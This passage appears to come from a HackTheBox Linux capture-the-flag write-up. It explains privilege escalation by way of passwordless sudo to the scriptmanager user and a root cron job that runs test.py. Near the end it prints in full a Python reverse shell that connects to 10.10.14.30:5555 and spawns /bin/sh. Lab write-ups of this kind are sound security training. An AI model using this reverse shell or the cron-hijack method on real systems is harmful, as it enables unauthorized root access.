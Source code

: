 ![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/13.jpg)
  
• The last two lines are particularly interesting because they say that the user 
  
• I’m  running in the context of (www-data) can run as the user scriptmanager     without having to provide the user’s password.

• This might come in handy later on.For the time being, let’s do some more enumeration.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/14.jpg)

• Everything in the root directory seems to be owned by root except for the scripts directory which is owned by scriptmanager.
 
• In the previous step we found out that we can run as scriptmanager without a password.

sudo -i -u scriptmanager


-i = The -i (simulate initial login) option runs the shell specified by the
     password  database entry of the target user as a login shell.
-u = specify user 

• The above command changes the user to scriptmanager.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/15.jpg)

• Now that we’re running in the context of scriptmanager, we have read/write/execute privileges in the scripts directory.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/16.jpg)

• We have two files; one owned by us (test.py) and the other owned by root (test.txt).

• Let’s print out the content of test.py.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/17.jpg)

• Interesting! It’s a simple python program that writes to the file test.txt.

• However, we saw in the previous image that test.txt is running as root! 
 
• Running the python program also seems to be something that is scheduled since the last access time of the test.txt file is very recent.
 
• In fact, the script seems to be executing every minute! It’s probably a cron job that is owned by root.
 
• Why is that great news for us? If I change the contents in the test.py file to send a reverse shell, that reverse shell will run as root!

• Changing the file on the shell was unbelievably difficult and glitchy. Therefore, I decided to transfer the file from my attack (kali) machine.

• In the kali machine, create a test.py file and add the reverse shell code to it.

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
